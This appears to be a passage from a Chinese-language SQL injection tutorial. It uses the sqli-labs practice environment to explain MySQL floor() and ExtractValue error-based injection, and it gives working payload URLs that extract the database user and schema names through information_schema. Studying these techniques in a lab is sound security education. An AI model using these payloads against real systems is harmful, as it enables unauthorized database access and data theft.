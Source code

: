 
### floor报错注入



floor报错注入是利用 **count()函数** 、**rand()函数** 、**floor()函数** 、**group by** 这几个特定的函数结合在一起产生的注入漏洞。缺一不可



```
// 我们可以将 user() 改成任何函数，以获取我们想要的信息。具体可以看文章开头关于information_schema数据库的部分      
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a) #       
//将其分解      
(select 1 from (Y)a)       
Y= select count(*) from information_schema.tables group by concat(Z)       
Z= user(),floor(rand(0)*2)           //将这里的 user() 替换成我们需要查询的函数
```




![](https://img-blog.csdnimg.cn/20181203203203736.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



floor报错注入参考：[floor()报错注入\_超人学飞的日子-CSDN博客\_floor报错注入](https://blog.csdn.net/zpy1998zpy/article/details/80650540 "floor()报错注入_超人学飞的日子-CSDN博客_floor报错注入")



### ExtractValue报错注入



> EXTRACTVALUE (XML\_document, XPath\_string)



*   第一个参数：XML\_document 是 String 格式，为 XML 文档对象的名称

*   第二个参数：XPath\_string (Xpath 格式的字符串).



作用：从目标 [XML](https://so.csdn.net/so/search?q=XML&spm=1001.2101.3001.7020) 中返回包含所查询值的字符串



ps: 返回结果 限制在32位字符



```
// 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~      
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,user(),0x7e))#       
// 通过这条语句可以得到所有的数据库名，更多的关于informaion_schema的使用看文章头部      
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e))#
```




![](https://img-blog.csdnimg.cn/20181203203331591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
